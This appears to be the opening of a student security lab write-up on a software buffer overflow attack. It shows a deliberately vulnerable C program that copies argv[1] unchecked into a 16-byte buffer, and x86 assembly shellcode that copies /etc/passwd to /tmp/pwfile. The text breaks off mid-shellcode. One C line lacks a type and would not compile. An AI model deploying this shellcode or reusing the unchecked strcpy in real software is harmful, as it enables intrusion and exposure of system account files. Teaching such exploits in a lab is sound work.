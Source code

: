 # Lab #1,20110031, Tu Hao Thien, INSE330380E_01FIE
# Task 1: Software buffer overflow attack
Given a vulnerable C program 
```
#include <stdio.h>
#include <string.h>
void redundant_code(char* p)
{
    local[256];
    strncpy(local,p,20);
	printf("redundant code\n");
}
int main(int argc, char* argv[])
{
	char buffer[16];
	strcpy(buffer,argv[1]);
	return 0;
}
```
and a shellcode source in asm. This shellcode copy /etc/passwd to /tmp/pwfile
```
global _start
section .text
_start:
    xor eax,eax
    mov al,0x5
    xor ecx,ecx
    push ecx
    push 0x64777373 
    push 0x61702f63
    push 0x74652f2f
    lea ebx,[esp +1]
    int 0x80

    mov ebx,eax
    mov al,0x3
    mov edi,esp
    mov ecx,edi
    push WORD 0xffff
    pop edx
    int 0x80
    mov esi,eax

    push 0x5
    pop eax
    xor ecx,ecx
    push ecx
    push 0x656c6966
    push 0x74756f2f
    push 0x706d742f
    mov ebx,esp
    mov cl,0102o
    push WORD 0644o
    pop edx
    int 0x80

    mov ebx,eax
    push 0x4
    pop eax
    mov ecx,edi
    mov edx,esi
```